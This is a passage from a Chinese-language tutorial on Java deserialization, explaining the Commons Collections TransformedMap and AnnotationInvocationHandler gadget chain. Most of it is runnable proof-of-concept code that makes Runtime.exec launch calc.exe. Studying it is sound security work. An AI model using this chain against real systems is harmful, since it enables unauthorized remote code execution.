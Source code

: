 ```java
     for (Map.Entry<String,Object> entry:transformedMap.entrySet()){
         entry.setValue("anything");
     }
 }
}
```

以上代码,就会调用起我们的计算器。由此可见，我们只需要把经过我们包装好的transformedMap对象作为AnnotationInvocationHandler的属性并序列化，我们就可以在反序列化的时候执行我们的恶意代码。

完整的代码如下(需要 jdk8u60 以下的版本)

```java
public class CommonCollectionsPlayLoad {

 public static void main(String[] args) throws Exception {
     new CommonCollectionsPlayLoad().run();
 }

 public void run() throws Exception {
     deserialize(serialize(getObject()));
 }

 //在此方法中返回恶意对象
 public Object getObject() throws Exception {
     //构建恶意代码
     String command="calc.exe";
     final String[] execArgs = new String[] { command };
     final Transformer[] transformers = new Transformer[] {
             new ConstantTransformer(Runtime.class),
             new InvokerTransformer("getMethod", new Class[] {
                     String.class, Class[].class }, new Object[] {
                     "getRuntime", new Class[0] }),
             new InvokerTransformer("invoke", new Class[] {
                     Object.class, Object[].class }, new Object[] {
                     null, new Object[0] }),
             new InvokerTransformer("exec",
                     new Class[] { String.class }, execArgs)
     };
     Transformer transformer=new ChainedTransformer(transformers);

     //将恶意代码包装到目标的 sun.reflect.annotation.AnnotationInvocationHandler 中
     /**
      * 构建一个 transformedMap ,
      * transformedMap的作用是包装一个Map对象,使得每一次在该Map中的Entry进行setValue的时候
      * 都会触发 transformer的transform()方法
      * */
     Map transformedMap=TransformedMap.decorate(new HashedMap(),null,transformer);
     //由于AnnotationInvocationHandler无法直接访问,因此使用反射的方式来构建对象
     final Constructor<?> constructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
     constructor.setAccessible(true);
     return constructor.newInstance(Override.class, transformedMap);
 }

 public byte[] serialize(final Object obj) throws IOException {
     ByteArrayOutputStream out = new ByteArrayOutputStream();
     ObjectOutputStream objOut = new ObjectOutputStream(out);
     objOut.writeObject(obj);
     return out.toByteArray();
 }

 public Object deserialize(final byte[] serialized) throws IOException, ClassNotFoundException {
     ByteArrayInputStream in = new ByteArrayInputStream(serialized);
```